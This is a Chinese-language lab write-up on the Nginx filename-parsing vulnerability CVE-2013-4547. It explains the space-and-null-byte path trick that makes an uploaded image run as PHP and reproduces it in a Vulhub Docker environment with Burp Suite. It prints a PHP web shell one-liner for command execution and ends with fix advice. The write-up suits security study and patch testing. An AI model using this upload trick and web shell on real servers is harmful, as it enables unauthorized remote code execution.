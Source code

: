 # Nginx_文件名逻辑漏洞(CVE-2013-4547)

| 说明     | 内容                                 |
| -------- | ------------------------------------ |
| 漏洞编号 | CVE-2013-4547                        |
| 漏洞名称 | Nginx 文件名逻辑漏洞                 |
| 漏洞评级 |                                      |
| 影响范围 | Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7 |
| 漏洞描述 |                                      |
| 修复方案 |                                      |



### 1.1、漏洞描述

这个漏洞其实和代码执行没有太大关系，其主要原因是错误地解析了请求的URI，错误地获取到用户请求的文件名，导致出现权限绕过、代码执行的连带影响

漏洞成因大概为==Nginx本身并不能解析PHP代码，只能通过加载PHP模块来进行解析代码==。

通过正则表达式来匹配以.php结尾的请求路径交给PHP模块去解析，但是Nginx在加载文件名时遇到‘\0’便会停止读取‘\0’后面的内容，于是通过以上思路，我们在进行文件上传的时候，文件名应该设置为shell.png,在进行访问时，访问文件应为shell.png'\0'.php,通过正则表达式匹配.php后缀将请求路径交给PHP模块，PHP模块在读取文件名时遇到\0便不会读取后面的.php，从而解析文件为shell.png,但是在实际过程中，Nginx在读取文件名碰到'\0'便会出现报错并停止执行，当我们在'\0'前面加入空格后，Nginx便会跳过报错处理，这样便可以成功利用'\0'进行截断，因此我们的请求路径应该为shell.png\[0x20][0x00].php,Nginx在读取文件名为shell.png[0x20],因此我们在上传文件时应该上传文件名shell.png[0x20]
具体解释可查看参考文章

- '\0'为字符串结束标志，十六进制表示为0x00
- 空格字符，十六进制表示为0x20

### 1.2、漏洞等级

### 1.3、影响版本

Nginx 0.8.41 ~ 1.4.3 / 1.5.0 ~ 1.5.7

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/nginx/CVE-2013-4547

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:{8080}/`即可看到

![image-20231221102140579](./imgs/image-20231221102140579.png)

#### 2、漏洞扫描

#### 3、漏洞验证

上传一个shell.php的文件，代码如下

```php
<?php phpinfo();?>
```

bp抓包修改文件名和文件类型

![image-20231221102250702](./imgs/image-20231221102250702.png)

抓取访问`shell.png.php`文件的数据包,发送至repeater模块

![image-20231221102408008](./imgs/image-20231221102408008.png)

修改hex，找到`shell.png.php`，最后一个点的位置，在其前面添加`空格`和`\0`的十六进制数

![image-20231221102456511](./imgs/image-20231221102456511.png)



添加十六进制

![11](./imgs/11.gif)

点击`send`发送数据包

![image-20231221102914725](./imgs/image-20231221102914725.png)

### 1.5、深度利用

#### 命令执行

```php
# cmd.php
<?php system($_GET['cmd'])?>
```

![image-20231221111030504](./imgs/image-20231221111030504.png)

浏览器访问http://10.9.75.3:8080/uploadfiles/cmd.jpg.php

抓取数据包 添加`0x20`,``0x00`

![image-20231221111914330](./imgs/image-20231221111914330.png)

点击发送，然后进行 命令执行

![image-20231221112036683](./imgs/image-20231221112036683.png)



### 1.6、修复建议

- 将Nginx升级到1.5.7之后
- 对上传的文件进行重命名操作
- 过滤空格
- 取消文件目录的执行权限

### 1.7、参考

https://zhuanlan.zhihu.com/p/136801555



